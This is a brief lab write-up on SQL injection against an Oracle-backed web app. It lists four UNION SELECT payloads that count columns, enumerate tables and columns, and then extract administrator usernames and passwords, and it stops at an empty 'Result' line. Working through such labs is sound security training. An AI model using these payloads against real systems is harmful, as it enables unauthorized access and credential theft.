

# Lab: SQLi attack, listing the database contents on Oracle

# Overview:
- Vulnerability in product category filter
- The result from the query are returned in the app's response so you can use UNION attack to retrieve data from other tables
- The app has a login function, database contains usernames and password. You need to determine the name of this table and columns it contains
- Then retrieve credentials of administrator and access it to solve the lab

# Analysis:
try:
'UNION SELECT NULL,NULL FROM dual-- to get actual number of columns

try:
'UNION SELECT table_name,NULL FROM all_tables--
-> chose table_name: USERS_IHMJUH

try:
'UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_IHMJUH'--
-> chose column_name: PASSWORD_LSEHDZ and USERNAME_AHRWPD

try:
'UNION SELECT PASSWORD_LSEHDZ, USERNAME_AHRWPD FROM USERS_IHMJUH--

-> Result:
